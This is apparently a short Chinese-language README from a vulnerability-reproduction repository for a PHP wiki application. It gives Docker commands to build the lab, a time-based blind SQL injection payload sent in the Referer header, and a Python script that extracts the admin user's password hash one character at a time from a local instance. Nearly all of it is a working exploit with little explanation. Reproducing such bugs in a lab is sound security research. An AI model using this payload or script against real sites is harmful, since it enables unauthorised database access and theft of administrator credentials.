


## 构建漏洞环境
```
docker-compose build
docker-compose up -d
```

## sql注入漏洞
payload
```
s1riu5' where  if((substr((select password from wiki_user where username='admin'),1,1))='e', sleep(3), 0)#
```


```
import requests
import time

payload_str = "0123456789abcdefghijklmnopqrstuvwxyz~!@#$%^&*()_-+"

md5_list = []

for i in range(1,33):
    for j in payload_str:
        payload = "s1riu5' where  if((substr((select password from wiki_user where username='admin'),{beg},1))='{pay_char}', sleep(3), 0)#".format(beg=i, pay_char=j)

        begin = time.time()
        burp0_url = "http://127.0.0.1:8002/index.php?user-login"
        burp0_cookies = {"PHPSESSID": "8f20d0af10105ec68433e6f16c438c21", "hd_sid": "Iz3BgX", "hd_auth": "4b44bEU0ug1ht6AzgerY0S2wqCyanP9v2ZN54DWFs7%2B%2F2xlEA4csnrg8PTC%2BGFd6QpnKgd0gc%2BnnI1sNoDRA"}
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:60.0) Gecko/20100101 Firefox/60.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Referer":payload , "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        response = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
        end = time.time()

        time_run = end-begin
        if time_run > 2:
            md5_list.append(j)

print("".join(md5_list))

```


很鸡肋的一个漏洞


[漏洞介绍](http://www.freebuf.com/vuls/170337.html)


